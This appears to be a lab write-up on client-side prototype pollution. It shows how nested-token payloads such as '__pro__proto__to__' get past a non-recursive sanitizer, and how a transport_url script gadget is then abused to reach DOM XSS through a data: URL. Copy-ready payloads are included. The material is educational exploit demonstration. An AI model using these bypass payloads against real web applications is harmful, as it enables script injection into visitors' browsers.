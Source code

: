 ### 3. Bypassing the sanitizer (finding the prototype pollution source)

* The sanitizer strips exact blocked tokens, but because it is not recursive, fragments that later form the dangerous keys after sanitization can bypass the blacklist.
* Constructed payloads that include harmless fragments which, after the sanitization process, yield `__proto__` (or `constructor.prototype`) on the resulting parsed object. Examples used in the lab:

  ```
  /?__pro__proto__to__[foo]=bar
  /?__pro__proto__to__.foo=bar
  /?constconstructorructor[protoprototypetype][foo]=bar
  /?constconstructorructor.protoprototypetype.foo=bar
  ```
* After loading one of those payloads, checking `Object.prototype` in the console showed:

  ```
  Object.prototype.foo === "bar"
  ```

  — prototype pollution succeeded.

### 4. Identifying and abusing the gadget

* `searchLogger.js` checks `config.transport_url` and, if set, appends a script element:

  ```js
  const script = document.createElement('script');
  script.src = config.transport_url;
  document.head.appendChild(script);
  ```
* Using the prototype pollution vector, injected `transport_url` into the global `config` object:

  ```
  /?__pro__proto__to__[transport_url]=foo
  ```
* Observed in Elements tab that a `<script src="foo">` element was added.

### 5. Proof of concept — DOM XSS

* Replaced `foo` with a `data:` URL that executes JS:

  ```
  /?__pro__proto__to__[transport_url]=data:,alert(1);
  ```
* After loading that URL the browser immediately executed `alert(1)` and the lab was solved.

---

## Exact PoC payloads (copy/paste)

* Prototype pollution proof:

  ```
  /?__pro__proto__to__[foo]=bar
  ```
